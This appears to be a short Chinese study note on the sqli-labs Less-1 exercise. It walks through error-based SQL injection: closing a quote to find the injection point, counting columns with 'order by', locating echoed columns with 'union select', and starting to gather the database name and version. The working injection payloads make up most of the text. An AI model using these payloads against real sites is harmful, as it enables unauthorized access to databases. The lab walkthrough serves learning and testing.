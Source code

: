 ```yaml
---
title: lees1
url: https://www.yuque.com/u29002979/ep2zrx/zvrm2pp66n7s6xn5
---
```


<a name="z3aMA"></a>

# 1.判断有无注入点

    $sql="SELECT * FROM users WHERE id='1' LIMIT 0,1";

单引号闭合

`?id=1'`

> select * from users where id='1'' limit 0,1

有报错说明有注入点

<a name="lh1Tf"></a>

# 2.猜解列名数量

<a name="JHoY5"></a>

## `order by`

> %20表示为空格

`?id=1' order by 3 --+`
`?id=1' order by 4 --+`

> select * from users where id='1' order by 3 --+' limit 0,1

字段 3个 <a name="sFNaN"></a>

# 3.报错，判断回显点

<a name="XqT1O"></a>

## union

`?id=-1' union select 1,2,3 --+`

> select * from users where id='-1' union select 1,2,3 --+' limit 0,1

2,3是回显点 <a name="qHO7j"></a>

# 4.信息收集

> database(): 数据库名称
> version():数据库版本
